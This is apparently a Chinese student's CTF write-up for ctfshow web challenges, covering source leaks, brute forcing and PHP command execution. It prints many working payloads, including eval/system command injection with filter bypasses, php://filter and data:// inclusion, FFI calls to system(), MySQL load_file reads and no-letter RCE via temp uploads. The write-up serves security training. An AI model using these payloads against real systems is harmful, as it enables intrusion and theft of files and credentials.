


## 信息收集

#### web1

直接f12查看即可


#### web2

当想查看源代码时如果f12与右键都不能用，可以在网页右上角三个点处选择开发者工具查看。


#### web3


#### web4

题目说`总有人把后台地址写入robots，帮黑阔大佬们引路。`直接访问`robots.txt`拿到flag


#### web5

题目为php源码泄露，直接访问`index.php`没有反应，再访问`index.phps`下载文件得到flag

```
index.php是PHP网站的常见首页文件，该文件可以包含PHP代码、HTML标记和其他相关内容。负责处理用户请求、生成动态内容和呈现网页。它可以通过包含其他文件实现代码重用，根据用户输入生成不同的HTML响应。尽管不是必需，但通常是服务器默认查找的入口点。
```

（php源码泄露题可以尝试此方法）


#### web6

题目说`解压源码到当前目录，测试正常，收工`。直接用dirsearch扫描发现一个`www.zip`文件（这也是常见的源码包名字）

直接访问下载到本地，解压后发现一个`fl000g.txt`文件，打开后发现是`flag{flag_here}`，提交发现不正确。

此处涉及一个知识点：**开发者若将一个系统的某个文件开放下载，令别人可以任意使用，则文件的内容是可以修改的**。

所以在url中再次访问`fl000g.txt`文件得到flag，


#### web7

题目说`版本控制很重要，但不要部署到生产环境更重要。`，想到版本控制工具**git**

在url中直接访问其默认文件`.git/`得到flag

*ps：在linux系统中`.`开头的文件属于隐藏文件，开发者用终端操作时可能会因看不见而一同提交造成源码泄露。*


#### web8

与上一题相同，不过将`git`改成`svn`

这是另一个版本控制工具，知道有这个东西就行。


#### web9

题目提示说：`发现网页有个错别字？赶紧在生产环境vim改下，不好，死机了`

此处涉及一个知识点：如果vim未正常退出时，会产生一个后缀为`.swp`的交换文件，其中可能包含有源代码。

故直接访问下载`index.php.swp`查看即可得到flag


#### web10

题目说`cookie 只是一块饼干，不能存放任何隐私数据`，进去直接看cookie拿到flag


#### web11

题目：

域名其实也可以隐藏信息，比如flag.ctfshow.com 就隐藏了一条信息

通过DNS检查查询flag https://zijian.aliyun.com/ TXT 记录，一般指为某个主机名或域名设置的说明。查找flag.ctfshow.com域名下的txt记录


#### web12

题目提示：有时候网站上的公开信息，就是管理员常用密码

则可以在网页中找到联系电话

在URL后直接加入`admin/`访问管理员地址，账号为`admin`，密码尝试使用电话号码发现正确得到flag


#### web13

题目提示：技术文档里面不要出现敏感信息，部署到生产环境后及时修改默认密码

打开网页拉到最下面发现有个`document`比较异常，点开发现是一个pdf文档，拉到下面发现有默认后台地址(https://your-domin/system1103/login.php)、默认用户名、默认密码。

直接访问默认后台地址发现报错，此处涉及一个知识点：`yourdomin`代表的是部署后的地址，此处直接改为靶场地址即可使用默认用户名和密码访问得到flag


#### web14

题目提示：`某编辑器最新版默认配置下，如果目录不存在，则会遍历服务器根目录`；`有时候源码里面就能不经意间泄露重要(editor)的信息,默认配置害死人`

所以进入容器后查看源码搜`editor`找编辑器发现`editor/upload/banner-app.png`，尝试访问`editor/`可以成功访问到一个编辑器

在文件上传中可以看见文件目录，访问`/var/www/html`（Linxu中，/var/www/html为网站文件默认存放位置）

发现一个文件`nothinghere`，打开可以发现一个`fl000g.txt`文件

**为什么不能直接访问`editor/attached/file/var/www/html/nothinghere/fl000g.txt`**：`editor/attached/file/`属于一个相对路径，后面的是绝对路径，这样访问是绝对不行的。`/var/www/html/`是根目录，故直接访问`/nothinghere/fl000g.txt`即可得到flag


#### web15

 题目提示`公开的信息比如邮箱，可能造成信息泄露，产生严重后果`

进入页面拉到底部发现一个qq邮箱，直接访问管理员地址尝试用邮箱当密码登陆失败

点忘记密码有密保问我所在城市,则尝试在qq中搜索邮箱主人，发现所在地为西安，填入后发现成功并显示密码已修改为`admin`后面加一串数字，重新登陆得到flag


#### web16

题目提示此题与探针有关

故进入容器后直接访问`tz.php`（这是一个默认探针名字）

在里面可以访问phpinfo，在phpinfo中搜索flag可以找到flag（*？！*）


#### web17


#### web18

容器打开是一个小游戏，这种小游戏一般都是考察js

在源码页中查看js代码，可以找到

```
if(score>100)
{
var result=window.confirm("\u4f60\u8d62\u4e86\uff0c\u53bb\u5e7a\u5e7a\u96f6\u70b9\u76ae\u7231\u5403\u76ae\u770b\u770b");
```

这里是一段unicode码，解码得`你赢了，去幺幺零点皮爱吃皮看看`

所以直接访问`110.php`得到flag


#### web19

题目提示`密钥什么的，就不要放在前端了`

首先想到看源代码，f12点进源代码-索引（以后可以直接网页内右键点击查看网页源代码），然后发现其源码部分有

```
   <!--
    error_reporting(0);
    $flag="fakeflag"
    $u = $_POST['username'];
    $p = $_POST['pazzword'];
    if(isset($u) && isset($p)){
        if($u==='admin' && $p ==='a599ac85a73384ee3219fa684296eaa62667238d608efa81837030bd1ce1bf04'){
            echo $flag;
        }
}
    -->
```

其中p对应的值是哈希值，此处有两种方法：

1、直接用hackbar进行post提交

```
username=admin&pazzword=a599ac85a73384ee3219fa684296eaa62667238d608efa81837030bd1ce1bf04
```

即可得到flag

2、对这段哈希值进行转化，这里涉及密码学的知识，需要用到源码中的`key`（密钥）和`iv`（偏移量）

使用网站((http://tool.chacuo.net/cryptaes)进行解密

解密得到密码直接在网页中提交得到flag


#### web20

题目提示`mdb文件是早期asp+access构架的数据库文件，文件泄露相当于数据库被脱裤了。`

题目容器打开`显示我是asp程序，我用的access数据库`

access数据库一般的目录是`db`，故在url后加入`/db/`，也可以用dirsearch扫出来。

dirsearch没扫到文件的原因是字典里没有

可以将 mdb 字典放到 dirsearch 下指定字典进行扫描找到指定文件

但b站的wp是直接试试出`db.mdb`文件并下载（老一辈师傅的直觉）

下载下来使用access打开可以在表格中找到flag

*我感觉这题的目的就是让你知道这么一个数据库名字，毕竟flag都是`flag{ctfshow_old_database}`*


---

## 爆破

#### web21

正常抓包显示

```
GET / HTTP/1.1
Host: f55be6a3-8623-4aec-a952-fd551eb978c4.challenge.ctf.show
Connection: close
Cache-Control: max-age=0
Authorization: Basic YWRtaW46MTEx
sec-ch-ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

其中`Authorization: Basic YWRtaW46MTEx`这一段是一个 HTTP 中的 `Authorization` 头部字段，使用的是 “基本认证（Basic Authentication）” 方式。`YWRtaW46MTEx` 是经过 Base64 编码后的用户名和密码，解码后用户名和密码用一个`:`隔开，所以可以进行爆破。在有效负载处理中加入前缀:`admin:`、编码:`base64`，爆破即可。


#### web23

页面是一段php代码

```
if(isset($_GET['token'])){
	$token = md5($_GET['token']);
	if(susbtr($token,1,1)===substr($token,14,1)&&substr($token,14,1)===substr($token,17,1)){         			if(intval(substr($token,1,1))+intval(substr($token,14,1))+intval(substr($token,17,1))/intval(substr($token,1,1))===intval(substr($token,31,1))){
	echo $flag;
	}
}
```

自己写一段php脚本就行

```
<?php
for ($i = 0; $i < 10000; $i++) {
    $token = md5($i);
    if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)) {
        if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))) {
            echo '$token ='.$i. 'md5='.$token;
            }
        }
    }
```


#### web24

页面是一段php代码，代码审计：

mt_srand(372619038); 使用 mt_srand() 函数设置 Mersenne Twister 随机数生成器的种子为固定值 372619038，这会使随机数生成器生成的随机数序列在每次运行时都相同，因为种子值固定了；if(intval($r)===intval(mt_rand())){ 检查 GET 参数 r 转换为整数后是否等于调用 mt_rand() 生成的随机数的整数值，等于则输出 flag。

我们只需要使用给定的种子生成对应的随机数再转为整数即可：

```
<?php
mt_srand(372619038);
echo intval(mt_rand());
```

将得到的结果直接GET传参即可


#### web25

进入页面是一段php代码：

```
error_reporting(0);
include("flag.php");
if(isset($_GET['r'])){
    $r = $_GET['r'];
    mt_srand(hexdec(substr(md5($flag), 0,8)));
    $rand = intval($r)-intval(mt_rand());
    if((!$rand)){
        if($_COOKIE['token']==(mt_rand()+mt_rand())){
            echo $flag;
        }
    }else{
        echo $rand;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
```

其中`mt_srand(hexdec(substr(md5($flag), 0,8)));`首先对 `$flag` 变量进行 MD5 哈希运算，然后截取其前 8 个字符，将其转换为十六进制并解码为十进制，最后将这个结果作为 `mt_srand` 的种子。`mt_srand` 函数用于设置 `mt_rand` 函数的随机数种子。

后面的 if((!$rand)){ ，需要为真才会执行后面输出 flag 的语句，因此 $rand 需要为 0 ，而 `$rand = intval($r)-intval(mt_rand());` 换句话说就是` intval($r)` 需要等于 `intval(mt_rand())`。

令 r=0，就可以得到`rand = -intval(mt_rand())=642674062`，只要设置了 r，就会 echo $rand;

这里还有一个问题：`token==mt_rand()+mt_rand()`是有上面已经定义的种子第二次和第三次生成的随机数之和（上面已经生成了一次），这里需要用到工具**php_mt_seed**(一个专门用于从已知随机数逆推出 Mersenne Twister 种子的工具)，在kali中先`cd php_mt_seed`切换到php_mt_seed目录下，再`time ./php_mt_seed 642674062`，使用 **wappalyzer** 看， php的版本是 7.3.11，直接在程序执行的结果中找到响应的seed，再跑一下代码：

```
<?php
mt_srand(0x8634f58a);
mt_rand();
echo mt_rand()+mt_rand();
```

得到的数字写进cookie的token中，再GET传参`?r=642674062`得到flag


#### web26

抓包重发就能拿到falg，找到pass点爆破也行。


#### web27

打开发现有一个登陆系统，点击录取名单可以下载一个excel表，上面有姓名与其被隐藏出生年月的身份证号，下面还有一个“学生学籍信息查询系统”，点进去需要输入姓名与身份证号，可以按照excel表的信息对其进行爆破，利用脚本生成1990到2024年所有的日期：

```
from datetime import datetime, timedelta


def print_all_dates():
    start_date = datetime(1990, 1, 1)
    end_date = datetime(2024, 1, 1)
    current_date = start_date
    while current_date <= end_date:
        print(current_date.strftime("%Y%m%d"))  # 以 "YYYY-MM-DD" 的格式输出日期
        current_date += timedelta(days=1)


if __name__ == "__main__":
    print_all_dates()
```

拿到后进行爆破得到编码，对其进行解码：`恭喜您，您已被我校录取，你的学号为02015237 初始密码为身份证号码`，直接返回登陆拿到flag


#### web28

发现URL长这这样：`https://974279a0-3754-4803-aafd-91241ba74b8a.challenge.ctf.show/0/1/2.txt`，猜测后面两个数字就是爆破点，用脚本生成1-100的数字爆破点选两个数字，将后面的`2.txt`删掉（斜杠要留下），选Clusterbomb模式，爆破拿到flag


---

## 命令执行

### eval命令执行

#### web29

进入页面看见php代码，代码将以GET形式传入的参数c直接作为php命令执行(`eval($c)`)，且过滤了关键字`flag`，先输入命令`?c=system("ls");`查看目录，发现有一个`flag.php`文件，于是先输入`?c=system("cp fla?.php 1.txt");`将文件写入`1.txt`，再直接在URL后加入`1.txt`访问拿到flag


#### web30

与上一题相似，不过将`system``php`过滤了，可以用`passthru`替代`system`，直接用`*`代替`php` ，拿到flag


#### web31

过滤语句：

```
preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)
```

用`%09`代替空格（不知道为什么%20不行），直接用`*`代替`flag.php`后面的东西

payload：

```
?c=passthru("tac%09fla*");
```


#### web32

过滤语句：

```
(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c))
```

过滤了大部分关键字，分号无法使用，由于是php代码，可以直接用`?>`替代，用`%0a`代替空格

可以用

```
?c=include%0a$_GET[1]?>&1=
```

来逃逸过滤，`1`后面可以拼接任意语句，由于没有分号分割，所以内容无法输出，所以要用到文件包含来做，最终payload：

```
?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

得到进行base64解码即可


#### web33

和上题一样


#### web34

和上题一样


#### web35 

和上题一样


#### web36

和上题一样，不过数字被过滤，用a代替1即可（不过为什么`%0a`的0没被过滤？——说是`%0a`是一个整体 不会单看里面的0）


#### web40

过滤了一大堆东西：


但里面的括号是中文括号，不是英文的（这玩意不看wp是真没发现）

payload：

```
?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

解释：

```
show_source():与 highlight_file() 函数的功能类似，用于以语法高亮的形式显示指定文件的源代码。
next():主要用于在数组中移动内部指针到下一个元素，并返回该元素的值。
array_reverse():用于反转数组中元素的顺序,接受一个数组作为参数，并返回一个反转后的新数组。原数组并不会被修改。
scandir():用于返回指定目录中的文件和目录的列表,接受一个目录路径作为参数，返回一个数组，数组元素包含了目录中的文件和子目录的名称。
pos():current()函数的别名，它只返回内部指针当前指向的数组元素的值。它不会以任何方式移动指针。如果内部指针指向元素列表的末尾，则post()返回false。
localeconv():获取当前地域的数字和货币格式信息，返回一个数组。
```


#### web41

代码


看不懂一点

wp网址：https://blog.csdn.net/miuzzx/article/details/108569080

题目过滤了一堆东西，需要再构造字符串需要用到或运算：

```
以A为例
A或运算得到的结果是(%40|%01)   ------------>这是两个十六进制的数
十六进制的40是十进制的64，再将64转化为二进制可得到
0100 0000
同理可得01是
0000 0001
两个二进制进行或运算（直接想象成or，有1进1，没1就是0）
得到：
0100 0001
而这个数是十进制的65
在ASCII码表中，十进制的65对应的就是A
```

（不懂为什么这么搞）

网上有师傅有脚本直接生成了可用的字符：

```
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

本来这里有个py脚本可以直接传参的，但用不了，所以直接用bp传

构造`system(ls)`：（前面的括号的是system ，后面的是ls）


构造`system(cat flag.php)`


> 解释一下为什么可以这么写：
>
> PHP中有`phpinfo()`
>
> 而写成`('phpinfo')()`也是可以正常执行的
>
> 同理可以构造`system()`


#### web58（突破禁用函数）


**突破禁用函数**命令执行，不清楚禁用了什么函数，尝试`system()`显示


表示已被禁用

尝试发现 `highlight()` `show_sourse()` `file_get_contents()`可以用，猜测flag的文件名就是 `flag.php`，直接拿到flag

```
如果文件名不是flag.php
可以通过：
print_r(scandir(pos(localeconv())));
print_r(scandir('.'));
来查找
```

payload：

```
c=highlight_file("flag.php");
```

*注：可以通过`phpinfo()`里面的disable_functions一栏来查看被禁用的函数，但这里将`phpinfo()`给BAN了*

另外，这题还可以用文件包含的方法做：

payload:

```
POST:c=include($_GET[1]);
url/?1=php://filter/convert.base64-encode/resource=flag.php
```


#### web59

题目和上一题一样，`show_sourse()` `file_get_contents()`被BAN了，`highlight_file()`拿到flag

payload：

```
c=highlight_file("flag.php");
```


#### web60

发现flag文件名没变，这里采用另一种方法

payload：

```
c=include('flag.php');echo $flag;
```

先将文件包含过来，那变量也会被包含过来，直接输出变量即可


#### web61

上题方法即可


#### web62

payload:

```
c=highlight_file("flag.php");
```


#### web63

上一题方法也行，这里用另一种方法

payload:

```
c=include("flag.php");var_dump(get_defined_vars());
后面的函数作用是拿到所有注册变量
```


#### web64

前面方法即可


#### web65

前面方法即可


#### web66

用之前的办法读到`flag.php`后发现里面的是假flag


猜测flag在根目录，使用之前提到过的方法查看根目录

```
c=print_r(scandir('/'));
```


发现flag.txt，直接查看

```
c=highlight_file("/flag.txt");
```


#### web67

payload与上题一致

值得一提，这题`print_r()`被BAN了，这意味着无法使用上题的方法查看根目录

这时可以使用`var_dump()`来查看根目录

```
c=var_dump(scandir("/"));
```


#### web68

这题点进URL直接显示`highlight_file()`被BAN了


使用上一题的方法可以读出flag在根目录，对于 txt 文件，我们使用 include 进行包含就可以直接看到文件内容：

```
c=include("/flag.txt");
```


#### web69

上题方法即可

但这里`var_dump()`被BAN了，查看目录使用`var_export()`代替即可：

```
c=var_export(scandir('/'));
```


#### web70

上题方法即可

值得一提进去除了显示BAN了`highlight_file()`还显示


可以知道命令执行中还有这几个函数可以用


#### web71

按照上一题的方法回显


题目有一个附件，是一个`index.php`，打开发现代码将所有最终的输出会全部替换为 “ ? ”


可以考虑在`eval($c)`后直接将进程结束，让后面的匹配缓冲区不执行直接退出：

```
c=include("/flag.txt");exit();
```


#### web72（glob协议）

这题用之前的方法都读不到东西，显示


看wp说是本题设置了 open_basedir()，将php所能打开的文件限制在指定的目录树中，包括文件本身。因为 ini_set() 也被限制了，所以 open_basedir() 不能用 ini_set() 重新设置绕过。

```
open_basedir()是 PHP 中的一个重要配置指令，用于限制 PHP 脚本所能访问的文件系统路径。
```

首先要确认flag文件的位置，这里使用的是php的**glob协议**(此协议允许以一种统一的方式访问不同类型的资源)

```
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) { echo($f->__toString().' '); } exit(0); ?>
```

找到一个`flag0.txt`，这里要使用[uaf脚本](D:\CTF\uaf.php)来读取将脚本内容进行URL编码后作为命令执行拿到flag

提一下，这个脚本是国外的一个开源脚本，好像利用了 php 的垃圾回收机制，代码涉及到偏移地址之类的。

总结就是看不懂qaq


#### web73

用上一题的方法扫描目录发现存在`flagc.txt`（这题也可以用`c=var_export(scandir('/'));`来读）

尝试使用上一题的方法来读取，显示`strlen()`被禁用，b站wp是使用function来替代：

```
function strlen_user($s)
{
    $ret = 0;
    for($i = 0;$i < 100000;$i++){
        if($s[$i]){
            $ret=$ret +1;
        }
        else{
            break;
        }
    }
    return $ret;
}
```

但发现可以直接`include()`读取：

```
c=include('/flagc.txt');exit(0);
```


#### web74

之前的方法：

glob协议读目录，然后include包含即可：

```
c=include("/flagx.txt");exit();
```


#### web75

使用glob协议发现了flag36.txt文件，但已经无法用之前的方法读取，看wp说使用mysql的load_file读文件：

```
c=try {
  $dbh = new PDO('mysql:host=localhost;dbname=information_schema', 'root', 'root');
  foreach($dbh->query('select load_file("/flag36.txt")') as $row) {  
      echo($row[0])."|";
  }
  $dbh = null;
} catch (PDOException $e) {
  echo $e->getMessage();
  die();
};exit();
```

将脚本进行URL编码，进行提交拿到flag

解释：

```
try {
    // 使用PDO（PHP Data Objects）创建一个新的数据库连接对象，指定DSN、用户名（root）和密码（root）
    $dbh = new PDO('mysql:host=localhost;dbname=information_schema', 'root', 'root');
    
    // 执行一个SQL查询，从指定的文件（/flag36.txt）中读取内容
    foreach($dbh->query('select load_file("/flag36.txt")') as $row) {  
        // 输出读取到的内容，并追加一个竖线（|）
        echo($row[0])."|";
    }
    
    // 将数据库连接对象设置为null，关闭连接
    $dbh = null;
} catch (PDOException $e) {
    // 如果发生PDO异常，输出错误信息
    echo $e->getMessage();
    // 终止脚本执行
    die();
}
 
// 终止脚本执行
exit();
```

>  $dbh 是数据库连接句柄（database handle），它是通过 new PDO 创建的，用于与数据库进行交互。
>
> PDO（PHP Data Objects）是PHP中的一个扩展，它提供了一个统一的接口来访问不同的数据库。它支持预处理语句和事务，使数据库操作更安全和高效。
>
> DSN（数据源名称，Data Source Name）是一个包含数据库连接信息的字符串。它通常包括数据库类型、主机名、数据库名称等信息。在创建PDO对象时指定，即 'mysql:host=localhost;dbname=information_schema'。这个字符串包含了数据库类型（mysql）、主机名（localhost）和数据库名称（information_schema）。
>
> foreach 是PHP中的一个控制结构，用于遍历数组或对象。在上面payload中，foreach 用于遍历SQL查询的结果集（由 $dbh->query 返回），并处理每一行的数据。
>

数据可名字可以用这个命令脚本来查：

```
c=$dsn = "mysql:host=localhost;dbname=information_schema";
$db = new PDO($dsn, 'root', 'root');
$rs = $db->query("select group_concat(SCHEMA_NAME) from SCHEMATA");
foreach($rs as $row){
        echo($row[0])."|"; 
}exit();
```


解释：

```
// 数据源名称（DSN），指定数据库类型、主机名和数据库名称
$dsn = "mysql:host=localhost;dbname=information_schema";
 
// 使用PDO（PHP Data Objects）创建一个新的数据库连接对象，使用指定的DSN、用户名（root）和密码（root）
$db = new PDO($dsn, 'root', 'root');
 
// 执行一个SQL查询，从SCHEMATA表中选择并连接所有数据库名称（SCHEMA_NAME），返回一个结果集
$rs = $db->query("select group_concat(SCHEMA_NAME) from SCHEMATA");
 
// 遍历结果集中的每一行，并输出第一个字段（即连接的数据库名称），然后追加一个竖线（|）
foreach($rs as $row){
    echo($row[0])."|";
}
 
// 终止脚本执行
exit();
```


#### web76

使用之前的方法glob协议查看文件名之后用`include()`查看显示


故直接用上题方法白嫖


#### web77

用glob协议读取根目录后发现除了一个文件叫`flag36x.txt`外还有一个叫`readflag.txt`（这是一个可执行的二进制文件，执行可直接拿到flag）


采用前面的方法读`flag36x.txt`回显


看题目提示是 用PHP 中的 FFI（Foreign Function Interface）来调用 C 语言的 system 函数，并执行一个 Shell 命令。


>FFI::cdef 方法用于定义 C 函数原型，其中 int system(const char *command); 是 C 语言中 system  函数的声明。system 函数接受一个字符串参数（即Shell命令），并在系统的命令行中执行该命令；
>
>之后执行 /readflag 程序并将其输出重定向到文件 1.txt；
>
>通过 FFI 对象 \$ffi 调用了前面定义的 system 函数，并传递了字符串变量 $a 作为参数。也就是说，实际执行的是 Shell 命令 /readflag > 1.txt，效果是在系统中运行 /readflag 程序，并将其输出结果保存到当前目录下的 1.txt 文件中。

执行后访问`1.txt`即可拿到flag


那为什么不可以直接读`flag36x.txt`呢？上网查了一下其他师傅的wp：

可以先尝试一下读取：

```
c=$ffi = FFI::cdef("int system(const char *command);");$a='cat /flag36x.txt> 2.txt';$ffi->system($a);
```

访问`2.txt`发现是空白没有内容

查看根目录下文件的权限：

```
c=$ffi = FFI::cdef("int system(const char *command);");$a='ls -l / > 3.txt';$ffi->system($a);
```

访问`3.txt`回显



>先看 flag36x.txt：-r--r----- 1 root root 46 Jul 1 07:19 flag36x.txt
>
>第一个字符 - 表示这是一个普通文件。
>接下来的三个字符 r-- 表示文件所有者（root）具有读取权限，但没有写入或执行权限。
>后面的三个字符 r-- 表示文件所属组（root组）具有读取权限，但没有写入或执行权限。
>最后的三个字符 --- 表示其他用户没有任何权限（既没有读取、写入、也没有执行权限）。

而我们当前是一个什么用户呢：

```
c=$ffi = FFI::cdef("int system(const char *command);");$a='id > 3.txt';$ffi->system($a);
```


用户 www-data 并不属于文件 flag36x.txt 的所有者（root 用户），也不属于文件所属组（root 组）。因此，根据文件的权限设置，www-data 用户无法读取 flag36x.txt 文件的内容。

> 而对于 readflag：-r-sr-xr-x 1 root root 8392 Sep 16 2020 readflag
>
> 第一个字符 - 表示这是一个普通文件。
> 接下来的三个字符 r-s 表示文件所有者（root）具有读取和执行权限，并且设置了SUID权限位。
> 后面的三个字符 r-x 表示文件所属组（root组）具有读取和执行权限，但没有写入权限。
> 再后面的三个字符 r-x 表示其他用户具有读取和执行权限，但没有写入权限。

如前面提到`readflag`是一个可执行的二进制文件，网上查看大佬读取和反编译得到的一串代码：

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setuid(0);                      // 提升权限为root用户
  puts("ctfshow flag getter");    // 输出一条信息到标准输出
  system("cat /flag36x.txt");     // 执行命令，输出文件 /flag36x.txt 的内容
  return 0;                       // 返回0，表示程序正常结束
}
```

提权后读取，所以执行`readflag`可以读到


#### web124


可以注意到，限定了输入的长度为80，可以使用_`GET[]`来绕过，

尝试构造

```
c=$_GET[abs]($_GET[acos]);&abs=system&acos=ls 
```

[]被过滤，可以使用{}替换，但是`_GET`被过滤，使用其ascii值转为`_GET`

`_GET`转成十六进制是0x5f474554，由于其中还是包含字母，再由十六进制转为十进制1598506324。

>dechex()：十进制转十六进制
>hex2bin()：十六进制转二进制，返回 ASCII 字符

但是hex2bin被过滤，使用base_convert()进行进制转换，将其转换为数字

> base_convert(number,frombase,tobase)：可以在任意进制之间转换数字

base_convert(‘hex2bin’,36,10)=37907361743

base_convert(37907361743,10,36)=hex2bin

在白名单中选择最短的pi当_GET参数 ,传入system ls

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=ls
#$pi=base_convert(37907361743,10,36)(dechex(1598506324)) = _GET
```

拿到文件名


直接读取拿到flag：

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=cat flag.php
```

传入后页面只有`_GET`，需右键查看源码

特别解释一下，


这部分会将所有匹配到的结果存储在 `$used_funcs` 数组中，就是用于匹配上面的白名单函数


### include命令执行

#### web37

将`eval($c)`改成了`include($c)`，意思为包含由用户输入的 $c 所指定的文件

payload:

```
?c=data://text/plain,<?php system("tac fla?.php");?>
```


#### web38

```
!preg_match("/flag|php|file/i", $c)
```

将`php``file`都过滤了，可以将上一题payload中的`<?php`改成`<?=`，叫做**短标签**

payload：

```
?c=data://text/plain,<?= system("tac fla?.*");?>
```


#### web39

代码：


使用web37的payload即可，执行的实际上是

```
?c=data://text/plain,<?php system("tac fla?.php");?>.php
```

前面已经闭合，后面不会影响其执行

值得一提如果执行`phpinfo();`的话，会在最下面返回`1.php`，因为 `phpinfo()`会返回1


### system命令执行（含黑洞）

#### web42

代码：


就是说变量c的命令都会被写进黑洞，所有的返回结果都是不显示的。

这里用分号来分别写入两条命令，则前面的命令不会受影响，后面的命令会被写进黑洞。

payload：

```
?c=tac flag.php;1
```


#### web43

过滤了分号和`cat`


可以用`&&`，"and"符号的意思就是执行成功第一条命令后执行第二条，就是执行了两条命令，但是要进行URL编码

payload：

```
?c=tac flag.php%26%261
```


#### web44

题目


payload:

```
?c=tac fla?.php%26%261
```


#### web45

题目


过滤空格，`%09`绕过

payload：

```
?c=tac%09fla?.php%26%261
```


#### web46

题目：


payload:

```
?c=tac%09fla?.php%26%26a
```


#### web47

题目：


用上一题的payload即可：

```
?c=tac%09fla?.php%26%26a
```


#### web48

题目：


用上一题的payload即可：

```
?c=tac%09fla?.php%26%26a
```


#### web49

题目：


过滤了`%`，但不影响URL编码的使用

用上一题的payload就行：

```
?c=tac%09fla?.php%26%26a
```


#### web50

题目：


将`&`号和`%09`过滤了，`&`号可以用`||`代替（要URL编码），这里的空格绕过可以用`<`，但前面就要使用`nl`，`flag`就不能用问号来绕过了，可以用双引号绕过

payload：

```
?c=nl<fl"ag".php%7c%7ca
```

输入执行后会出现一个页面显示“1”，右键查看源码即可


#### web51


 过滤了`tac`，用上一题的方法就行


#### web52


题目过滤了`<`和`>`，则上一题的空格绕过方法用不了了，可以用`${IFS}`代替空格，输入

```
?c=nl${IFS}fla?.php%7c%7ca
```

发现文件中的flag是假flag，想到flag可能藏在根目录下，执行命令

```
?c=ls${IFS}/%7c%7ca
```

发现有个叫flag的文件，则直接读即可：

```
?c=nl${IFS}/fla?%7c%7ca
```


### system命令执行

#### web53


payload：

```
?c=nl${IFS}fla?.php%7c%7ca
```


#### web54


在之前过滤的关键字中加入了通配符，导致没法在这些关键字中添加特殊符号来绕过了，算是彻底禁用了这些命令，这里`nl`也被过滤了，考虑使用`rev`：

```
?c=rev${IFS}fla?.php%7c%7ca
```

会得到一段反过来的flag


手动倒置一手就行

这里也可以用`mv`重命名文件进行读取


#### web55


这里过滤了所有字母，但没有过滤数字，可以有多种方法。

先是**第一种**——最经典的**无字母rce**：

用到了linux的一个特性，在linux中，.可以用来执行任意脚本，.或者叫period，作用和source一样，用来执行一个文件中的命令，比如，当前的shell是bash，那么.file就是用bash执行file文件中的命令

这里可以通过post一个文件(文件里面是 sh 命令)，在上传的过程中，通过 . (点)去执行执行这个文件。

上传的这个临时文件会保存在 /tmp/ 下，且文件名一定是 php 加上六个随机的字符，即 /tmp/php??????，这个临时文件还会有一个特性，就是这 6 个随机的字符最后一位会出现大写的情况，这也是我们的另一个利用点，利用大写字母区别于其他文件，我们使用匹配符：[@-[] 即可匹配到大写字母，大写字母位于 “ @ ” 与 “ [ ” 之间。

先用html语言写一个POST上传包：

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="https://b38cdb41-22da-44ac-919a-f7d077623143.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

